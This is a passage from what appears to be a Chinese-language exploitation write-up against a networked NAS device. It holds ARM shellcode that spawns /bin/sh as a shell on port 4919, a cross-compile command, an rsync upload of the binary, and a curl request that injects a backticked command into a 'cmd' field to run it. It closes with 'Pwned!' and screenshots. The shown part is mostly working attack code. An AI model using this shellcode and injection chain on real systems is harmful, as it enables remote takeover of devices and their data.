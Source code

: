 ```
    "add %sp, %sp, $12n"
    "mov %r6, %r0n"
    "mov %r1, $2n"
    "1:  mov %r0, %r6n"
    "svc 0x0090003fn"
    "subs %r1, %r1, $1n"
    "bpl 1bn"
    "sub %r1, %sp, $4n"
    "sub %r2, %r2, %r2n"
    "mov %r3, $0x2fn"
    "mov %r7, $0x62n"
    "add %r3, %r7, lsl $8n"
    "mov %r7, $0x69n"
    "add %r3, %r7, lsl $16n"
    "mov %r7, $0x6en"
    "add %r3, %r7, lsl $24n"
    "mov %r4, $0x2fn"
    "mov %r7, $0x73n"
    "add %r4, %r7, lsl $8n"
    "mov %r7, $0x68n"
    "add %r4, %r7, lsl $16n"
    "mov %r5, $0x73n"
    "mov %r7, $0x68n"
    "add %r5, %r7, lsl $8n"
    "push `{`%r1, %r2, %r3, %r4, %r5`}`n"
    "add %r0, %sp, $8n"
    "add %r1, %sp, $0n"
    "add %r2, %sp, $4n"
    "svc 0x0090000bn"
    );
`}`
```

编译：

```
arm-linux-gcc 2.c -o 2 -static
```

通过 rsync 扔到 /tmp 目录，然后跑起来：



```
rsync --password-file /tmp/p 2 rsync@192.168.1.101::nas/HN1A009G9M12857/pwn/tmp/
curl http://192.168.1.101 --data "cmd=wget%20192.168.1.100:2333/`/tmp/2%26`"
```

连接 4919 端口：

[![](https://p3.ssl.qhimg.com/t01af3334d07f974788.jpg)](https://p3.ssl.qhimg.com/t01af3334d07f974788.jpg)

Pwned！破解成功！

[![](https://p3.ssl.qhimg.com/t01f61186d5d54202e2.jpg)](https://p3.ssl.qhimg.com/t01f61186d5d54202e2.jpg)[![](https://p0.ssl.qhimg.com/t01cc5d036b04c82003.jpg)](https://p0.ssl.qhimg.com/t01cc5d036b04c82003.jpg)
